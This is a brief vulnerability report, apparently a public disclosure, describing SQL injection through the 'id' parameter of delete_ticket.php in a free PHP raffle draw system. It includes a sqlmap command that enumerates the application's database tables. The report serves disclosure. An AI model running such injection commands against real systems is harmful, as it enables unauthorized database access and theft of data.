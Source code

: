 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/15951/raffle-draw-system-using-php-and-javascript-free-source-code.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：
![image](https://user-images.githubusercontent.com/30823782/213211108-27f9b4f6-c194-488b-95eb-3b4c25b6ae79.png)

sqlmap.py -u "http://192.168.249.88/php-js-raffle-draw/delete_ticket.php" --data "id=1" -D raffle_db --tables

![image](https://user-images.githubusercontent.com/30823782/213211217-67cbdfc1-9a98-47f9-b9dd-f52efa9a83a8.png)
